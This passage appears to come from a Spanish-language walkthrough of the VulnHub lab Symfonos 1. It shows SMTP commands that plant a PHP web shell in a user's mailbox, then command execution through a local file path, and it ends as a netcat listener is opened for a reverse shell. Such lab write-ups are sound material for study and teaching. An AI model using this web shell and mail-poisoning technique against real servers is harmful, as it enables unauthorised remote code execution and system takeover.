 ```bash
HELO example.com
```

4. El servidor responderá con un mensaje de saludo
5. Luego, debemos indicar la dirección del remitente con el comando `MAIL FROM:` seguido de la dirección de correo electrónico del remitente.

```bash
MAIL FROM: d4redevil@symfonos.localdomain
```

6. El servidor respnderá confirmando la dirección del remitente
7. Debemos especificar la dirección del destinatario con el comando `RCPT TO:` seguido de la dirección de correo electrónico del destinatario.

```bash
RCPT TO: helios@symfonos.localdomain
```

8. El servidor responderá confirmando la dirección del destinatario.
9. Ahora estamos listos para escribir el cuerpo del mensaje. Para empezar, debemos escribir `DATA` y presionar Enter. El servidor responderá con un mensaje indicando que está listo para recibir el cuerpo del mensaje.
10. En este caso, el cuerpo de nuestro mensaje contendrá el siguiente código php.

```bash
<?php system($_GET['cmd']); ?>
```
11. Por ultimo, debemos presionar Enter y terminar con un punto `.` y volver a presionar Enter.
12. El servidor responderá confirmando que el mensaje ha sido aceptado para entrega.
13. Una vez enviado el mensaje, podemos cerrar la conexión escribiendo `QUIT`.

Para comprobar que tenemos ejecución de comandos, podemos ingresar a la siguiente ruta y pasar como parámetro `cmd=id`.

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos23.png)
_Archivo /var/mail/helios Symfonos 1_

![Symfonos 1](/assets/img/vulnhub/symfonos1/symfonos24.png)
_Archivo /var/mail/helios Symfonos 1_

De esta manera, vemos que podemos ejecutar comandos de forma remota. Para lo cual, podemos ejecutar una reverse shell para ganar acceso al sistema.

Nos ponemos en escucha con netcat por el puerto 443.

```bash
nc -lnvp 443
```
